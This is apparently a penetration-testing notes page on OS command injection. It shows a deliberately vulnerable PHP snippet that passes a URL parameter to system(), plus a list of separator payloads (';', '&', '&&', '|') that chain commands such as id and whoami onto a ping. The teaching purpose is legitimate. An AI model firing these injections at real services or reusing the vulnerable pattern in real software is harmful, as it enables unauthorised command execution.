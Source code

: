 ```yaml
---
title: Command Injection
tags: [recon, exploit, command, webvuln, injection, automated, payload]
tools: ['nulcei', 'burpsuite', 'metasploit']
notes: "Common web service command injection ttp's"
---
```


# Command Injection

**Command Injection** is a web security vulnerability  that allows an attacker to execute arbitrary system commands on the host operating system. This vulnerability occurs when an application passes  unsafe user supplied data to a system shell.

## How It Works

Command injection occurs when an application executes system commands that  include user-supplied data without proper sanitization. For example, in  the code:

```php
<?php $cmd = 'ping -c 4 ' . $_GET['host'];system($cmd);?>
```

An attacker might input: `8.8.8.8; ls -la`, changing the command to:

```bash
ping -c 4 8.8.8.8; ls -la
```

This executes both the ping command and lists directory contents.

## Detection

### Manual Testing

#### Command Separator Tests

Used to chain multiple commands together. Tests if the application properly sanitizes command separators:

```bash
# Semicolon (;) - Command sequencing
command1;command2        # Executes commands sequentially
ping 127.0.0.1;id       # Executes ping, then id
echo test;whoami        # Outputs test, then username

# Ampersand (&) - Background processing
command1&command2       # Executes both commands in background
ping 127.0.0.1&dir     # Starts ping and immediately runs dir
whoami&hostname        # Runs both commands simultaneously

# Double Ampersand (&&) - Conditional execution
command1&&command2      # Executes command2 only if command1 succeeds
ping 127.0.0.1&&whoami # Runs whoami only if ping succeeds
cd /tmp&&ls -la        # Lists directory only if cd succeeds

# Pipe (|) - Output redirection
command1|command2      # Sends output of command1 to command2
whoami|tr a-z A-Z     # Converts username to uppercase
ls -la|grep root      # Lists files and filters for 'root'
```
